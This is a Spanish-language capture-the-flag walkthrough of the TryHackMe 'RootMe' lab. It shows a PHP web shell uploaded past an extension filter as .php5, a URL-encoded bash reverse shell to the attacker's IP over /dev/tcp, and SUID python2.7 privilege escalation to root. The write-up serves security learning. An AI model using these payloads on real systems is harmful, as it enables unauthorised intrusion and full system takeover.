___
# RootMe Machine | THM

IP atacante: 192.168.192.200
IP víctima: 10.130.183.87

Comprobamos conectividad con la máquina



TTL  = 62 -> Máquina Linux

___

# Reconocimiento y enumeración





[+] Puertos abiertos
	 -> 80 HTTP | Apache 2.4.41
	 -> 22 SSH | OpenSSH 8.2p1

Echamos un vistazo a la página web que corre en el puerto 80 de dicha máquina



Ya que no podemos ver nada más, hacemos fuzzing para enumerar directorios usando `ffuf`.



Vemos que hay dos rutas: `uploads` y `panel`, entramos para investigar qué es cada una.

`uploads`: Página que almacena archivos subidos
`panel`: Página para subir archivos




# Explotación

Intentamos subir un archivo php con el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```



Nos dice que no permite archivos `php`, por lo que intentamos evadir esta restricción probando a cambiar la extensión del archivo:

- php
- php2
- php5
- phtml



Ahora que se pudo, nos mandamos una reverse shell por el parametro `cmd` de nuestro archivo `payload_php.php5` (lo podemos ver en uploads también).

```url
http://10.130.183.87/uploads/payload_php.php5?cmd=bash%20-c%20%22bash%20-i%20%3E%26/dev/tcp/192.168.192.200/443%200%3E%261%22
```



Aplicamos un tratamiento de tty y buscamos la flag del usuario.



# Escalada de privilegios

Buscamos binarios con el permiso SUID, encontramos `python2.7`, por lo que nos aprovecharemos de este para cambiar el uid del usuario y lanzar una bash como root.

```bash
find / -perm -4000 2>/dev/null
```

```python
#!/usr/bin/env python2.7
import os

os.setuid(0)
os.system("bash")
```

Ejecutamos y vemos la flag de root


